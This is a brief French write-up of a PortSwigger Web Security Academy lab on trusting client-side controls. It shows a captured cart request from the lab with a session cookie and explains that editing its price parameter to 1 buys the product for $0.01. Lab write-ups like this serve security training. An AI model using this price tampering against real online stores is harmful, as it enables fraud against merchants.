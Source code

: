 # Lab

https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-excessive-trust-in-client-side-controls

## Solution

Lorsqu'on ajoute un produit dans le panier, dans la requête il y a le prix :

```http
POST /cart HTTP/2
Host: 0a6b00ec041e5c0480e6b256002a0014.web-security-academy.net
Cookie: session=JuBky2TIwyP0tWixXWYPQjgABkn05aLg
Content-Length: 44
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a6b00ec041e5c0480e6b256002a0014.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6b00ec041e5c0480e6b256002a0014.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7

productId=1&redir=PRODUCT&quantity=1&price=137000
```

On a juste à modifier la valeur de `price` à `1` pour que le produit soit ajouté au panier au prix de `$0.01`.

Ensuite on peut valider le panier pour acheter au prix modifié.